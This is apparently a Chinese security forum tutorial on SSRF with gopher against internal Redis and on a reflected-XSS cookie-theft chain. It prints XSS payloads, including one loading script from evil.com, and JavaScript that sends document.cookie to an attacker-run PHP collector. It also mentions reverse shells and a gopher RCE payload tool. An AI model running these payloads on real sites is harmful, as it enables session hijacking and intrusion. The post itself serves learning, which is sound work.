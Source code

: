 本地curl发包测试一下
![file](http://secquan.zzyuncheng.com/3c6ef133b7b74dc9c90890aecfa675bc.png-quanzi)
后续可以反弹shell

### 通过gopher攻击内网数据库[#](https://www.secquan.org/Discuss/1069103#%E9%80%9A%E8%BF%87gopher%E6%94%BB%E5%87%BB%E5%86%85%E7%BD%91%E6%95%B0%E6%8D%AE%E5%BA%93)

#### redis[#](https://www.secquan.org/Discuss/1069103#redis)

这个的话算是比较常规的情况了，hackme上有道非常经典的题目
XSS+SSRF+Redis
之前博客有写过wp
<http://www.northity.com/2018/10/23/XSSme%E9%A2%98%E7%9B%AE%E5%A4%8D%E7%8E%B0/>
所以这里再就gopher协议攻击redis做进一步的分析
其实也就是在hackme题目上再深入一点，写入一个shell并反弹
然后写到这儿发现先知已经有师傅把SSRF+Redis总结得很详细了
所以直接上连接吧
<https://xz.aliyun.com/t/1800>

SSRF gopher构造 rce payload 生成工具 https://github.com/tarunkant/Gopherus>  

### XSS+逻辑漏洞

1）账户后台存在反射XSS

如：`http://xxx/user_admin/?parm=<script s >alert(1)</script>`

`http://targetSite.com/data/api/oauth/connect.php?method=unknownmethod%3Cscript%3Ealert(1)%3C/script%3E `

2)知道对方账户的邮箱账户

3）攻击者向受害者的邮箱发送可触发XSS漏洞的超链接（该反射型xss漏洞可导致受害者Cookie泄漏）

4）攻击者点击超链接（受害者的cookie被传输给攻击者搭建的网站）

`http://xxx/user_admin/?parm=<script src=http://evil.com/ReflectiveXSS.js >clicke me</script>`

该PHP网站由“ReflectiveXSS.js”“ReflectiveXSS.php”和“cookie.txt”这3个文件构成 

ReflectiveXSS.js的代码如下： 

```
//通过指定的名称'img'创建img元素

var img = document.createElement('img');

img.width = 0;

img.height = 0;

//将img元素的src属性指向脚本文件ReflectiveXSS.pho

//将cookie信息的字符串作为URI组件进行编码，然后用victimcookie参数传递

img.src = 'http://targetsite.com/ReflectiveXSS.php?victimcookie='+encodeURIComponent(document.cookie);
```
